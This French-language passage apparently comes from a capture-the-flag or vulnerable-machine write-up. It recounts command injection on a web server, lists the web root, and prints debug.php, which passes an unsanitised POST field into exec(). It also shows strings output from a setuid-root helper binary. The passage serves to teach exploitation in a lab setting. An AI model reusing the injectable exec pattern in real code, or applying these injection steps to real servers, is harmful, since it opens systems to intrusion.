 Le *php.ini* ne nous est finalement d'aucune utilité et les fichiers récupérés ne sont malheureusement pas très utiles non plus.  

Ça devient plus intéressant si on injecte un *ls -alR* d'un dossier de notre choix, que l'on redirige l'output vers un fichier dans */tmp* et que l'on rapatrie cet output via notre script.  

Je ne vous donne pas toutes les lignes que j'ai pu récupérer mais on découvre que dans */dev* il n'y a que *null*, *random* et *urandom*, que dans */etc* il n'y a que le script nécessaire mais il n'y a pas de *rc.d* ni de *init.d* et enfin qu'il n'y a pas de */root* (ce qui confirme encore plus l'utilisation d'un *chroot*).  

Par contre ce qui est intéressant c'est ceci :  

```plain
/usr/share/nginx/html:
total 168
drwxr-xr-x. 2 root root   4096 Aug 16 04:02 .
drwxr-xr-x. 3 root root   4096 Mar 12 06:06 ..
-rwxr-xr-x. 1 root root    439 Mar 17 17:34 debug.php
-rw-r--r--. 1 root root    391 Mar 12 00:48 index.html
-rw-r--r--. 1 root root 146545 Mar 12 00:10 persistence_of_memory_by_tesparg-d4qo048.jpg
-rwsr-xr-x. 1 root root   5757 Mar 17 11:53 sysadmin-tool
```

D'abord par curiosité voici le contenu de *debug.php* :  

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
        <head>
                <title>Debug Page</title>
        </head>
        <body>
                <form action="debug.php" method="post">
                Ping address: <input type="text" name="addr">
                <input type="submit">
                </form>
        </body>
</html>
<?php 
if (isset($_POST["addr"]))
{
        exec("/bin/ping -c 4 ".$_POST["addr"])}
?>
```

Ensuite le binaire setuid root *sysadmin-tool* est accessible via le navigateur (yes !).  

Un strings permet d'obtenir une idée de ce qu'il fait  

```plain
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
chroot
strncmp
puts
setreuid
mkdir
rmdir
chdir
system
__libc_start_main
GLIBC_2.0
PTRh 
[^_]
Usage: sysadmin-tool --activate-service
--activate-service
```